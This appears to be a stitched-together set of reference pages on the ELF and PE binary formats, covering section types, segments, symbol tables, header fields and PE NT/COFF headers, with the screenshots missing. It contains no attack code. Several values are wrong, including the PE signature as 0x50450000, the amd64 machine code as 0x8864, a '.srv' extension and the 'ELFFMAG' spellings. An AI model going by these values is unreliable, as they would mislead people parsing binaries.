The section contains data whose contents are solely defined and used by the actual programme.
SHT_SYMTAB and SHT_DYNSYM
These sections hold symbol tables. A file may contain at most one from each type of symbol table. Since SHT_SYMTAB is a complete symbol table, it is useful for both link editing and dynamic linking. However, its completeness comes with sizeable contents, so an ELF file may also contain an SHT_DYNSYM section which stores only symbols for dynamic linking. Only the latter may be loaded into memory.
SHT_STRTAB
This section is a string table. A file may have multiple string tables for different purposes.
SHT_RELA and SHT_REL
These sections hold relocation entries with without explicit addends, respectively. Multiple relocation sections are allowed per file.
SHT_HASH
The section is a symbol hash table. An ELF file may contain only one such section.
SHT_DYNAMIC
This section stores information relevant for dynamic linking. Only one such section is allowed for the entire file.
SHT_NOTE
This section stores auxiliary information.
SHT_NOBITS
This section occupies no file space but otherwise resembles SHT_PROGBITS. Whilst the section has a size of 0, the sh_offset field of the header contains the conceptual file offset.
SHT_PREINIT_ARRAY, SHT_INIT_ARRAY, and SHT_FINI_ARRAY
SHT_PREINIT_ARRAY stores pointers to functions which are invoked before any initialisation functions, while SHT_INIT_ARRAY and SHT_FINI_ARRAY have pointers which point to initialisation and termination functions, respectively. All pointers represent procedures with no parameters and a void return.
SHT_GROUP
This section specifies a section group. Section groups represent sets of related sections that must be treated by the linker in a special way. Such sections may only appear in relocatable files and the SHT entry for the group must precede any of the group's members in the section header table.
SHT_SYMTAB_SHNDX
This section is associated with an SHT_SYMTAB section and is required if any of the entries in the symbols table contain section header references to SHN_XINDEX. It holds an array of words and each entry corresponds to a
Other
The SHT_SHLIB section type is reserved but unspecified. As always, values from SHT_LOOS through SHT_HIOS and from SHT_LOPROC through SHT_HIPROC are reserved for OS- and processor-specific semantics, respectively. Values between SHT_LOUSER and SHT_HIUSER may be used as per the application's needs without creating any conflicts.
Special Sections
| Name | Type | Attributes |
|---|---|---|
| .bss | SHT_NOBITS | SHF_ALLOC+SHF_WRITE |
| .comment | SHT_PROGBITS | none |
| .data | SHT_PROGBITS | SHF_ALLOC+SHF_WRITE |
| .data1 | SHT_PROGBITS | SHF_ALLOC+SHF_WRITE |
| .debug | SHT_PROGBITS | none |
| .dynamic | SHT_DYNAMIC | SHF_ALLOC+... |
| .dynstr | SHT_STRTAB | SHF_ALLOC |
| .dynsym | SHT_DYNSYM | SHF_ALLOC |
| .fini | SHT_PROGBITS | SHF_ALLOC+SHF_EXECINSTR |
| .fini_array | SHT_FINI_ARRAY | SHF_ALLOC+SHF_WRITE |
| .got | SHT_PROGBITS | ? |
| .hash | SHT_HASH | SHF_ALLOC |
| .init | SHT_PROGBITS | SHF_ALLOC+SHF_EXECINSTR |
| .init_array | SHT_INIT_ARRAY | SHF_ALLOC+SHF_WRITE |
| .interp | SHT_PROGBITS | SHF_ALLOC/none |
| .line | SHT_PROGBITS | none |
| .note | SHT_NOTE | none |
| .plt | SHT_PROGBITS | ? |
| .preinit_array | SHT_PREINIT_ARRAY | SHF_ALLOC+SHF_WRITE |
| .relname | SHT_REL | SHF_ALLOC/none |
| .relaname | SHT_RELA | SHF_ALLOC/none |
| .rodata | SHT_PROGBITS | SHF_ALLOC |
| .rodata1 | SHT_PROGBITS | SHF_ALLOC |
| .shstrtab | SHT_STRTAB | none |
| .strtab | SHT_STRTAB | SHF_ALLOC/none |
| .symtab | SHT_SYMTAB | SHF_ALLOC/none |
| .symtab_shndx | SHT_SYMTAB_SHNDX | SHF_ALLOC/none |
| .tbss | SHT_NOBITS | SHF_ALLOC+SHF_WRITE+SHF_TLS |
| .tdata | SHT_PROGBITS | SHF_ALLOC+SHF_WRITE+SHF_TLS |
| .tdata1 | SHT_PROGBITS | SHF_ALLOC+SHF_WRITE+SHF_TLS |
| .text | SHT_PROGBITS | SHF_ALLOC+SHF_EXECINSTR |
.bss- this section holds uninitialised data that contributes to a process's memory image. It occupies no space in the file and gets filled with 0s when the programme is run..comment- used for version control..dataand.data1- these hold initialised data that contributes to a process's memory image..debug- holds debugging information and has unspecified contents..dynamic- This section holds dynamic linking information and its attributes will include theSHF_ALLOCbit. Whether theSHF_WRITEbit is set, however, is processor specific..dynstr- this is a string table containing the strings necessary for dynamic linking such as symbol names..dynsym- this section holds the dynamic symbol linking table..fini- contains instructions which contribute to process termination. Execution flow is transferred here when a process exits successfully..fini_array- this section holds function pointers for process termination..got- the Global Offset Table..hash- this section holds a symbol hash table..init- this section contains instructions relevant to process initialisation. The code here is executed before control is transferred to the programme's entry point (calledmainin most cases)..init_array- this section holds function pointers for process initialisation..interp- this section holds the path name of the programme interpreter. If the file has a loadable segment with relocation, the sections' attributes will include theSHF_ALLOCbit..line- this section holds line number information for debugging with source files..note- this section holds auxiliary information..plt- this section holds the Procedure Linkage Table..preinit_array- this section holds function pointers for pre-initialisation..relname and.relaname - these sections hold relocation information, where name is the name of the section for which the relocations are relevant such as.rel.textor.rela.text. If the file has a loadable segment that includes relocation, the sections' attributes will include theSHF_ALLOCbit..rodataand.rodata1- these sections hold read-only data that gets loaded into the memory image of the process..shstrtab- the string table for the section names..strtab- a string table which typically holds symbol names. If the file has a loadable segment that includes the symbol string table, the section's attributes will include theSHF_ALLOCbit..symtab- the complete symbol table. If the file has a loadable segment that includes the symbol table, the section's attributes will include theSHF_ALLOCbit..symtab_shndx- this section holds the special symbol table section index array described above. The section's attributes will include theSHF_ALLOCbit if the associated symbol table section does..tbss- this section holds uninitialised thread-local data which contributes to the memory image. This data is set to all 0s for each new execution flow and occupies no bytes in the file..tdata- this section holds initialised thread-local data which contributes to the memory image. A copy of it is generated for each new execution flow..text- this section holds the executable instructions of the programme.
Section Groups
Some sections occur in interrelated groups or contain references to other sections which become meaningless if the referenced object is removed or altered. Such groups must be included or omitted from the linked object together and may not be separated. Each section is only allowed to be part of a single group.
Such a grouping of sections is denoted by the SHT_GROUP type. In one of the ELF object's symbol tables is an entry whose name provides a signature for the section group. The section header of the SHT_GROUP section specifies this entry: The sh_link field contains the section header index of the symbol table section that contains the entry, while sh_info holds the symbol table index for the appropriate entry.
The data within an SHT_GROUP section is comprised of word entries, where the first entry is a flag word and the rest are section header indices of the sections which make up the group. The sections must each have the SHF_GROUP flag set in their sh_flags fields.
Introduction
Segments split the ELF binary into parts which are then loaded into memory by the OS programme loader. They can be thought of as grouping sections by their attributes and only selecting those which will be loaded into memory. In essence, segments contain information needed at runtime, while sections contain information needed at link-time.
The Programme Header Table
Segments are described by programme headers which are stored in the Programme Header Table (PHT). These structs are again defined in <elf.h>:
typedef struct
{
Elf32_Word p_type; /* Segment type */
Elf32_Off p_offset; /* Segment file offset */
Elf32_Addr p_vaddr; /* Segment virtual address */
Elf32_Addr p_paddr; /* Segment physical address */
Elf32_Word p_filesz; /* Segment size in file */
Elf32_Word p_memsz; /* Segment size in memory */
Elf32_Word p_flags; /* Segment flags */
Elf32_Word p_align; /* Segment alignment */
} Elf32_Phdr;
typedef struct
{
Elf64_Word p_type; /* Segment type */
Elf64_Word p_flags; /* Segment flags */
Elf64_Off p_offset; /* Segment file offset */
Elf64_Addr p_vaddr; /* Segment virtual address */
Elf64_Addr p_paddr; /* Segment physical address */
Elf64_Xword p_filesz; /* Segment size in file */
Elf64_Xword p_memsz; /* Segment size in memory */
Elf64_Xword p_align; /* Segment alignment */
} Elf64_Phdr;

p_type- describes the type of the segment.p_offset- the offset from the beginning of the file where the segment resides.p_vaddr- the virtual address at which the segment resides in memory.p_paddr- the segment's physical address, which is relevant only for systems with physical addressing. This member holds unspecified contents for executables and shared objectsp_filesz- the number of bytes the segment occupies in the file image. It may be 0.p_memsz- the number of bytes the segment occupies in the memory image. It may be 0.p_align- the value to which the segments are aligned in the file and in memory. If this holds 0 or 1, then no alignment is required. Otherwise,p_alignshould be a positive integer power of 2 andp_vaddrshould be equal top_offset % p_align.
The PHT can be viewed by specifying the -l argument to readelf:

Segment Types
| Name | Value |
|---|---|
PT_NULL | 0 |
PT_LOAD | 1 |
PT_DYNAMIC | 2 |
PT_INTERP | 3 |
PT_NOTE | 4 |
PT_SHLIB | 5 |
PT_PHDR | 6 |
PT_TLS | 7 |
PT_LOOS | 0x60000000 |
PT_HIOS | 0x6fffffff |
PT_LOPROC | 0x70000000 |
PT_HIPROC | 0x7fffffff |
PT_LOAD
This specifies a loadable segment described by p_filesz and p_memsz which means the segment is going to be mapped into memory. Bytes from the file are mapped to the beginning of the memory segment. Should the memory size be larger than the file size, the extra bytes are filled with 0s and are placed after the segment's data. Note that the file size cannot be larger than the memory size.
Entries of this type are sorted in an ascending order in the PHT according to their p_vaddr field.
All executable files must contain at least one PT_LOAD segment.
PT_DYNAMIC
The dynamic segment is pertinent to executables which avail themselves of dynamic linking and contains information for the dynamic linker. It typically points to the .dynamic section and comprises a series of structures which hold the relevant information.
typedef struct
{
Elf32_Sword d_tag; /* Dynamic entry type */
union
{
Elf32_Word d_val; /* Integer value */
Elf32_Addr d_ptr; /* Address value */
} d_un;
} Elf32_Dyn;
typedef struct
{
Elf64_Sxword d_tag; /* Dynamic entry type */
union
{
Elf64_Xword d_val; /* Integer value */
Elf64_Addr d_ptr; /* Address value */
} d_un;
} Elf64_Dyn;
In essence, the d_tag field determines whether the d_un field is treated as a value or an address.
PT_NOTE
This segment is completely optional and may contain information that is pertinent to a specific system. It can hold a variable number of entries of size 4 or 8 bytes on 32-bit and 64-bit platforms, respectively.
PT_INTERP
Here are specified the location and size of a null terminated string which describes the programme interpreter. Only one such segment is allowed per file and it must also precede any PT_LOAD segments.
PT_PHDR
This segment contains the location and size of the Programme Header Table itself, both in the file and in memory. Similarly to PT_INTERP, only one such segment is allowed per file and it must also precede any PT_LOAD segments.
PT_TLS
This segment specifies the Thread-Local Storage template. The latter is an amalgamation of all sections of type SHF_TLS. TLS sections are used to specify the size and initial contents of data whose copies are to be associated with different threads of execution. The part of the TLS which holds this initialised data is referred to as the TLS initialisation image, while the rest of the template is comprised of one or more sections of type SHF_NOBITS.
| Member | Value |
|---|---|
p_offset | File offset of the TLS initialization image |
p_vaddr | Virtual memory address of the TLS initialization image |
p_paddr | reserved |
p_filesz | Size of the TLS initialization image |
p_memsz | Total size of the TLS template |
p_flags | PF_R |
p_align | Alignment of the TLS template |
Other Segments
PT_SHLIB is reserved but is unspecified, while values from PT_LOOS to PT_HIOS and from PT_LOPROC through PT_HIPROC are reserved for OS- and processor-specific semantics, respectively.
Segment Flags
The p_flags field describes the permissions the segment is equipped with. It is important to note that the system may actually give more access than requested with the exception that a segment will never be assigned write permissions, unless explicitly requested:
| Flags | Value | Exact | Allowable |
|---|---|---|---|
| none | 0 | All access denied | All access denied |
PF_X | 1 | Execute only | Read, execute |
PF_W | 2 | Write only | Read, write, execute |
PF_W+PF_X | 3 | Write, execute | Read, write, execute |
PF_R | 4 | Read only | Read, execute |
PF_R+PF_X | 5 | Read, execute | Read, execute |
PF_R+PF_W | 6 | Read, write | Read, write, execute |
PF_R+PF_W+PF_X | 7 | Read, write, execute | Read, write, execute |
Introduction
ELF symbols represent symbolic references to certain pieces of code and data such as functions and global variables. For example, the printf() function will have such an entry in the .symtab and .dynsym sections (if the object is dynamically linked).
The Symbol Tables
Ultimately, there exist at most two symbol tables in an ELF object - .symtab and .dynsym. The former will also contain the contents of the latter, however, it is not necessary for dynamic linking and is thus usually omitted in the memory image of a binary. The extraneous symbols in .symtab are simply too big and completely useless during execution time, so .dynsym only contains the information absolutely necessary for dynamic linking. You will see that .symtab has no flags, while .dynsym is marked as ALLOC.

Both symbol tables contain entries of the following types:
typedef struct
{
Elf32_Word st_name; /* Symbol name (string tbl index) */
Elf32_Addr st_value; /* Symbol value */
Elf32_Word st_size; /* Symbol size */
unsigned char st_info; /* Symbol type and binding */
unsigned char st_other; /* Symbol visibility */
Elf32_Section st_shndx; /* Section index */
} Elf32_Sym;
typedef struct
{
Elf64_Word st_name; /* Symbol name (string tbl index) */
unsigned char st_info; /* Symbol type and binding */
unsigned char st_other; /* Symbol visibility */
Elf64_Section st_shndx; /* Section index */
Elf64_Addr st_value; /* Symbol value */
Elf64_Xword st_size; /* Symbol size */
} Elf64_Sym;

st_name- an offset (in bytes) from the beginning of the symbol name string table (either.dynstror.strtab), where the name of the symbol is located.st_value- the value of the symbol, which is either an address or an offset of its location.st_size- symbols may have an associated size. If this field is 0, the symbol has no size or it is unknownst_other- defines the symbol's visibility.st_shndx- since each symbol is defined in relation to some section, the index of the section header corresponding to the relevant section is stored in this field.st_info- this field specifies the symbol type and binding.
You can view the symbol tables by adding the -s flag to readelf:

If a symbol's value refers to a specific location within a section, st_shndx holds an index into the section header table. As the section moves during relocation, the symbol's value changes as well. Certain section indices, however, have reserved semantics:
SHN_ABS specifies that the symbol value is absolute and won't change during relocation.
SHN_COMMON labels a yet unallocated common block. The symbol's value holds alignment constraints. The linker allocates storage for the symbol at an address that is a multiple of the symbol value, while the st_size field holds the number of bytes necessary for the allocation. Such symbols may only occur in relocatable files.
SHN_UNDEF specifies an undefined symbol. When the linker combines this object file with another which defines the symbol, this file's references to the symbol will be linked directly to the actual definition.
SHN_XINDEX serves as an escape value and indicates that the relevant section header index is too large to fit in the the symbol. Therefore, the section header index is actually found in the SHT_SYMTAB_SHNDX section whose entries correspond one-to-one with those in the symbol table.
Symbol Types & Bindings
The following table contains the possible symbol bindings:
| Name | Value |
|---|---|
STB_LOCAL | 0 |
STB_GLOBAL | 1 |
STB_WEAK | 2 |
STB_LOOS | 10 |
STB_HIOS | 12 |
STB_LOPROC | 13 |
STB_HIPROC | 15 |
STB_LOCAL defines a local symbol. Such symbols are only visible in the object file containing their definition. This means that multiple local symbols with the same name may exist independently inside multiple object files without interfering with each other during linking.
STB_GLOBAL defines a global symbol. These symbols are visible to all files being combined. One file's definition of a global symbol will satisfy another file's reference to the same symbol. Multiple global symbols with the same name are not allowed.
STB_WEAK defines a weak symbol. Such symbols resemble global symbols, but have definitions with lower precedence. Consequently, the definition of an STB_WEAK symbol will be overridden by the definition of a different symbol with the same name, if such a symbol exists.
The other values are reserved for OS- and processor-specific semantics.
Following is a table containing the possible symbol types:
| Name | Value |
|---|---|
STT_NOTYPE | 0 |
STT_OBJECT | 1 |
STT_FUNC | 2 |
STT_SECTION | 3 |
STT_FILE | 4 |
STT_COMMON | 5 |
STT_TLS | 6 |
STT_LOOS | 10 |
STT_HIOS | 12 |
STT_LOPROC | 13 |
STT_HIPROC | 15 |
STT_NOTYPE defines a symbol with an undefined type.
STT_OBJECT represents a symbol that is associated with data such as a variable, an array, etc.
STT_FUNC is a symbol associated with a function.
STT_SECTION is a symbol associated with a section. Such entries are typically used for relocation and are of the STB_LOCAL binding.
STT_FILE symbols contain the names of source files associated with object files. Such symbols are local, have a section index of SHN_ABS and precede any other local symbols in the file.
STT_COMMON describes an uninitialised common block.
STT_TLS is a thread-local storage entity. It stores an offset to the symbol and not its address. Such symbols may only be referenced by thread-local storage relocations.
A symbol's type and binding are encoded into and decoded from the st_info field by means of the following macros:
/* How to extract and insert information held in the st_info field. */
#define ELF32_ST_BIND(val) (((unsigned char) (val)) >> 4)
#define ELF32_ST_TYPE(val) ((val) & 0xf)
#define ELF32_ST_INFO(bind, type) (((bind) << 4) + ((type) & 0xf))
/* Both Elf32_Sym and Elf64_Sym use the same one-byte st_info field. */
#define ELF64_ST_BIND(val) ELF32_ST_BIND (val)
#define ELF64_ST_TYPE(val) ELF32_ST_TYPE (val)
#define ELF64_ST_INFO(bind, type) ELF32_ST_INFO ((bind), (type))
Symbol Visibility
The visibility of a symbol specifies how the symbol should be accessed once it has become a part of and executable or shared object, notwithstanding that it may be specified in a relocatable file. In essence, a symbol's visibility tells the linker how that symbol will be used in the end file. Following is a table with the possible visibility values.
| Name | Value |
|---|---|
STV_DEFAULT | 0 |
STV_INTERNAL | 1 |
STV_HIDDEN | 2 |
STV_PROTECTED | 3 |
STV_DEFAULT symbols have a visibility equivalent to the one defined by their binding.
STV_PROTECTED symbols are visible to other files in the linking process (components), but are not preemptable. This means that references to such symbols from within the defining component must be resolved to the definition in that component. Local symbols cannot be protected.
STV_HIDDEN symbols have names which are invisible to external components and may be used for specifying the external interface of a given component. Hidden symbols in relocatable files must be transformed into local symbols by the linker.
STV_INTERNAL symbols have a platform-dependent meaning. Ultimately, however, the linker should be able to treat them as hidden symbols.
Introduction
The ELF header is a data structure which sits at the beginning of every ELF file and describes its layout. It starts with 16 identification bytes that contain the ELF magic bytes. The following structs are defined in <elf.h>:
#define EI_NIDENT 16
typedef struct {
unsigned char e_ident[EI_NIDENT];
Elf32_Half e_type;
Elf32_Half e_machine;
Elf32_Word e_version;
Elf32_Addr e_entry;
Elf32_Off e_phoff;
Elf32_Off e_shoff;
Elf32_Word e_flags;
Elf32_Half e_ehsize;
Elf32_Half e_phentsize;
Elf32_Half e_phnum;
Elf32_Half e_shentsize;
Elf32_Half e_shnum;
Elf32_Half e_shstrndx;
} Elf32_Ehdr;
typedef struct {
unsigned char e_ident[EI_NIDENT];
Elf64_Half e_type;
Elf64_Half e_machine;
Elf64_Word e_version;
Elf64_Addr e_entry;
Elf64_Off e_phoff;
Elf64_Off e_shoff;
Elf64_Word e_flags;
Elf64_Half e_ehsize;
Elf64_Half e_phentsize;
Elf64_Half e_phnum;
Elf64_Half e_shentsize;
Elf64_Half e_shnum;
Elf64_Half e_shstrndx;
} Elf64_Ehdr;

e_ident- the initial magic bytes which denote an ELF file.e_type- the type of the object file.
| Name | Value | Meaning |
|---|---|---|
ET_NONE | 0 | Unknown |
ET_REL | 1 | Relocatable file |
ET_EXEC | 2 | Executable file |
ET_DYN | 3 | Shared object file |
ET_CORE | 4 | Core file |
ET_LOOS | 0xfe00 | Operating system-specific |
ET_HIOS | 0xfeff | Operating system-specific |
ET_LOPROC | 0xff00 | Processor-specific |
ET_HIPROC | 0xffff | Processor-specific |
e_machine- specifies the required architecture. Values not labeled in the table are reserved for future machine names.
| Name | Value | Meaning |
|---|---|---|
EM_NONE | 0 | No machine |
EM_M32 | 1 | AT&T WE 32100 |
EM_SPARC | 2 | SPARC |
EM_386 | 3 | Intel 80386 |
EM_68K | 4 | Motorola 68000 |
EM_88K | 5 | Motorola 88000 |
| reserved | 6 | Reserved for future use (was EM_486) |
EM_860 | 7 | Intel 80860 |
EM_MIPS | 8 | MIPS I Architecture |
EM_S370 | 9 | IBM System/370 Processor |
EM_MIPS_RS3_LE | 10 | MIPS RS3000 Little-endian |
| reserved | 11-14 | Reserved for future use |
EM_PARISC | 15 | Hewlett-Packard PA-RISC |
| reserved | 16 | Reserved for future use |
EM_VPP500 | 17 | Fujitsu VPP500 |
EM_SPARC32PLUS | 18 | Enhanced instruction set SPARC |
EM_960 | 19 | Intel 80960 |
EM_PPC | 20 | PowerPC |
EM_PPC64 | 21 | 64-bit PowerPC |
EM_S390 | 22 | IBM System/390 Processor |
| reserved | 23-35 | Reserved for future use |
EM_V800 | 36 | NEC V800 |
EM_FR20 | 37 | Fujitsu FR20 |
EM_RH32 | 38 | TRW RH-32 |
EM_RCE | 39 | Motorola RCE |
EM_ARM | 40 | Advanced RISC Machines ARM |
EM_ALPHA | 41 | Digital Alpha |
EM_SH | 42 | Hitachi SH |
EM_SPARCV9 | 43 | SPARC Version 9 |
EM_TRICORE | 44 | Siemens TriCore embedded processor |
EM_ARC | 45 | Argonaut RISC Core, Argonaut Technologies Inc. |
EM_H8_300 | 46 | Hitachi H8/300 |
EM_H8_300H | 47 | Hitachi H8/300H |
EM_H8S | 48 | Hitachi H8S |
EM_H8_500 | 49 | Hitachi H8/500 |
EM_IA_64 | 50 | Intel IA-64 processor architecture |
EM_MIPS_X | 51 | Stanford MIPS-X |
EM_COLDFIRE | 52 | Motorola ColdFire |
EM_68HC12 | 53 | Motorola M68HC12 |
EM_MMA | 54 | Fujitsu MMA Multimedia Accelerator |
EM_PCP | 55 | Siemens PCP |
EM_NCPU | 56 | Sony nCPU embedded RISC processor |
EM_NDR1 | 57 | Denso NDR1 microprocessor |
EM_STARCORE | 58 | Motorola Star*Core processor |
EM_ME16 | 59 | Toyota ME16 processor |
EM_ST100 | 60 | STMicroelectronics ST100 processor |
EM_TINYJ | 61 | Advanced Logic Corp. TinyJ embedded processor family |
EM_X86_64 | 62 | AMD x86-64 architecture |
EM_PDSP | 63 | Sony DSP Processor |
EM_PDP10 | 64 | Digital Equipment Corp. PDP-10 |
EM_PDP11 | 65 | Digital Equipment Corp. PDP-11 |
EM_FX66 | 66 | Siemens FX66 microcontroller |
EM_ST9PLUS | 67 | STMicroelectronics ST9+ 8/16 bit microcontroller |
EM_ST7 | 68 | STMicroelectronics ST7 8-bit microcontroller |
EM_68HC16 | 69 | Motorola MC68HC16 Microcontroller |
EM_68HC11 | 70 | Motorola MC68HC11 Microcontroller |
EM_68HC08 | 71 | Motorola MC68HC08 Microcontroller |
EM_68HC05 | 72 | Motorola MC68HC05 Microcontroller |
EM_SVX | 73 | Silicon Graphics SVx |
EM_ST19 | 74 | STMicroelectronics ST19 8-bit microcontroller |
EM_VAX | 75 | Digital VAX |
EM_CRIS | 76 | Axis Communications 32-bit embedded processor |
EM_JAVELIN | 77 | Infineon Technologies 32-bit embedded processor |
EM_FIREPATH | 78 | Element 14 64-bit DSP Processor |
EM_ZSP | 79 | LSI Logic 16-bit DSP Processor |
EM_MMIX | 80 | Donald Knuth's educational 64-bit processor |
EM_HUANY | 81 | Harvard University machine-independent object files |
EM_PRISM | 82 | SiTera Prism |
EM_AVR | 83 | Atmel AVR 8-bit microcontroller |
EM_FR30 | 84 | Fujitsu FR30 |
EM_D10V | 85 | Mitsubishi D10V |
EM_D30V | 86 | Mitsubishi D30V |
EM_V850 | 87 | NEC v850 |
EM_M32R | 88 | Mitsubishi M32R |
EM_MN10300 | 89 | Matsushita MN10300 |
EM_MN10200 | 90 | Matsushita MN10200 |
EM_PJ | 91 | picoJava |
EM_OPENRISC | 92 | OpenRISC 32-bit embedded processor |
EM_ARC_A5 | 93 | ARC Cores Tangent-A5 |
EM_XTENSA | 94 | Tensilica Xtensa Architecture |
EM_VIDEOCORE | 95 | Alphamosaic VideoCore processor |
EM_TMM_GPP | 96 | Thompson Multimedia General Purpose Processor |
EM_NS32K | 97 | National Semiconductor 32000 series |
EM_TPC | 98 | Tenor Network TPC processor |
EM_SNP1K | 99 | Trebia SNP 1000 processor |
EM_ST200 | 100 | STMicroelectronics (www.st.com) ST200 microcontroller |
e_version- specifies the ELF version.
| Name | Value | Meaning |
|---|---|---|
| EV_NONE | 0 | Invalid version |
| EV_CURRENT | 1 | Current version |
e_entry- the virtual address of the entry point. If there is no entry point, this member is 0.e_phoff- the offset (in bytes) from the beginning of the ELF header for the Program Header Table. If the file does not contain such a table, this member is 0.e_shoff- the offset (in bytes) from the beginning of the ELF header for the Section Header Table. If the file does not contain such a table, this member is 0.e_flags- processor-specific flags which take values of the formEF_flag_name.e_ehsize- the size of the ELF header in bytes.e_phentsize- the size of an entry in the Program Header Table. All entries are equally-sized.e_phnum- the number of entries in the Program Header Table.e_shentsize- the size of an entry in the Section Header Table. All entries are equally-sized.e_shnum- the number of entries in the Section Header Table. If the number of sections is greater than or equal toSHN_LORESERVE(0xff00), this member is 0 and the actual number of entries in the Section Header Table is contained in thesh_sizefield of the first section header (at index 0). Otherwise, thesh_sizemember of the initial entry contains 0.e_shstrndx- the Section Header Table index of the entry which is associated with the section name string table. If there is no such table, this holdsSHN_UNDEF. If this index is greater than or equal toSHN_LORESERVE(0xff00), this member containsSHN_XINDEX(0xffff) and the actual index of the section name string table section is stored in thesh_linkfield of the first section header (at index 0). Otherwise, thesh_linkmember of the initial entry contains 0.
ELF Identification
Since ELF supports multiple types of processors, data encodings and machines, the first 16 bytes provide information as to how to interpret the file, regardless of the rest of its contents. These are the indices and meaning of each identification byte (e_ident):
| Name | Index | Purpose |
|---|---|---|
EI_MAG0 | 0 | File identification |
EI_MAG1 | 1 | File identification |
EI_MAG2 | 2 | File identification |
EI_MAG3 | 3 | File identification |
EI_CLASS | 4 | File class |
EI_DATA | 5 | Data encoding |
EI_VERSION | 6 | File version |
EI_OSABI | 7 | Operating system/ABI identification |
EI_ABIVERSION | 8 | ABI version |
EI_PAD | 9 | Start of padding bytes |
EI_NIDENT | 16 | Size of e_ident[] |
The first 4 bytes contain the magic bytes which identify an ELF file and always have the same values:
| Name | Value | Position |
|---|---|---|
ELFMAG0 | 0x7f | e_ident[EI_MAG0] |
ELFMAG1 | 'E' | e_ident[EI_MAG1] |
ELFFMAG2 | 'L' | e_ident[EI_MAG2] |
ELFFMAG3 | 'F' | e_ident[EI_MAG3] |
Next is the EI_CLASS byte which describes the file's class - whether it is a 32-bit or 64-bit file.
| Name | Value | Meaning |
|---|---|---|
ELFCLASSNONE | 0 | Invalid class |
ELFCLASS32 | 1 | 32-bit |
ELFCLASS64 | 2 | 64-bit |
EI_DATA specifies the encoding of the data structures in the ELF file.
| Name | Value | Meaning |
|---|---|---|
ELFDATANONE | 0 | Invalid data encoding |
ELFDATA2LSB | 1 | 2's complement, little-endian |
ELFDATA2MSB | 2 | 2's complement, big-endian |
EI_VERSION contains the ELF header version and must be set to EV_CURRENT.
EI_OSABI specifies OS- or ABI-specific extensions used by the file. Certain fields in other ELF structures contain values with OS- or ABI-specific meaning and their interpretation is determined by this byte. This byte should be set to 0 if no such extensions are used. The meaning of values between 64 and 255 is determined by the e_machine member of the ELF header. Furthermore, ABIs may define their own meanings for this byte, but otherwise, it should be interpreted in the following way:
| Name | Value | Meaning |
|---|---|---|
ELFOSABI_NONE | 0 | No extensions |
ELFOSABI_HPUX | 1 | Hewlett-Packard HP-UX |
ELFOSABI_NETBSD | 2 | NetBSD |
ELFOSABI_LINUX | 3 | Linux |
ELFOSABI_SOLARIS | 6 | Sun Solaris |
ELFOSABI_AIX | 7 | AIX |
ELFOSABI_IRIX | 8 | IRIX |
ELFOSABI_FREEBSD | 9 | FreeBSD |
ELFOSABI_TRU64 | 10 | Compaq TRU64 UNIX |
ELFOSABI_MODESTO | 11 | Novell Modesto |
ELFOSABI_OPENBSD | 12 | Open BSD |
ELFOSABI_OPENVMS | 13 | Open VMS |
ELFOSABI_NSK | 14 | Hewlett-Packard Non-Stop Kernel |
| 64-255 | Architecture-specific value range |
EI_ABIVERSION identifies the target ABI version and is used to distinguish between incompatible ABI versions. The byte's interpretation depends on the ABI specified by EI_OSABI. If it is unspecified, EI_ABIVERSION should contain 0.
EI_PAD - demarcates the beginning of the unused bytes in e_ident, which are reserved and set to 0. The value of this byte may change as meanings are assigned to these unused bytes.
You can view the ELF header of an ELF binary by using readelf with the -h option:

Introduction
PE is short for Portable Executable and it describes the structure of image and object files under the Windows family of operating systems. It is the successor of COFF files and encompasses a wide range of formats, including executables (.exe), dynamic-link libraries (.dll), kernel modules (.srv), and control panel applications (.cpl).
A very good programme for analysing PE files is PE-Bear.
Structure
The structure of a typical PE file looks like the following:

The file begins with a DOS header which marks it as an MS-DOS executable. Next follows the DOS stub, which is a simple programme which gets executed if the PE file is run in DOS mode and typically prints an error message. Following are the three NT headers - the PE 4-byte PE signature, the standard COFF file header, and the Optional header. Furthermore, it is possible that between the DOS Stub and the NT headers there is a space called the Rich Header. After the NT headers follows the Section Table which contains a section header for each section. At the end are the sections themselves which contain the actual contents of the file.
Introduction
The NT headers follow after the DOS Stub or the Rich Header, if such is present. They are defined in a struct which has two versions - a 32-bit version for PE32 and a 64-bit one for PE32+ files. The main difference between the versions is the Optional Header which also has two versions. The structs are all defined in <winnt.h>:
typedef struct _IMAGE_NT_HEADERS64 {
DWORD Signature;
IMAGE_FILE_HEADER FileHeader;
IMAGE_OPTIONAL_HEADER64 OptionalHeader;
} IMAGE_NT_HEADERS64, *PIMAGE_NT_HEADERS64;
typedef struct _IMAGE_NT_HEADERS {
DWORD Signature;
IMAGE_FILE_HEADER FileHeader;
IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
Both header versions begin with a signature represented by a DWORD. These 4 bytes identify the file as a PE and are always set to 0x50450000, or PE\0\0 in ASCII. You can view this field in PE-Bear:

COFF File Header
Next is the COFF File Header, or the IMAGE_FILE_HEADER, which is again identical in both the 32-bit and 64-bit versions and is defined as follows:
typedef struct _IMAGE_FILE_HEADER {
WORD Machine;
WORD NumberOfSections;
DWORD TimeDateStamp;
DWORD PointerToSymbolTable;
DWORD NumberOfSymbols;
WORD SizeOfOptionalHeader;
WORD Characteristics;
} IMAGE_FILE_HEADER, *PIMAGE_FILE_HEADER;
Machineindicates the type of architecture that the PE file is designed to run on. For example, this field will contain0x8864for amd64 and0x14cfor i386. For a full list of values you should refer to Microsoft's documentation.NumberOfSectionscontains the number of entries in the section table.TimeDateStamp- this field is a Unix timestamp which indicates when the file was created.PointerToSymbolTableandNumberOfSymbols- these fields contain an offset to the COFF symbol table as well as the number of entries inside. Since this table is deprecated, these fields are set to 0.SizeOfOptionalHeader- this field is rather self-explanatory.Characteristics- this is a field for flags that indicate a multitude of things. The meaning of each flag can again be explored on the site of Microsoft's documentation.
You can get a view of the COFF File Header using PE-Bear:

Optional Header
The Optional Header is crucial to the PE loader and linker on Windows systems. It is called optional because certain files, such as object files, lack such a header. It does not really have a fixed size, hence why the IMAGE_FILE_HEADER.SizeOfOptionalHeader field exists. Furthermore, the Optional Header also comes in two flavours - 32- and 64-bit. These differ in only two aspects - the 32-bit version contains 31 entries, while the 64-bit version has 30, and data types of certain members are different. Namely, the 32-bit version contains a BaseOfData member, which is an RVA to the beginning of the data section, and the fields ImageBase, SizeOfStackReserve, SizeOfStackCommit, SizeOfHeapReserve, SizeOfHeapCommit change from DWORD to ULONGLONG between 32- and 64-bit, respectively. Both structs are defined in <winnt.h>:
typedef struct _IMAGE_OPTIONAL_HEADER {
// Standard fields.
WORD Magic;
BYTE MajorLinkerVersion;
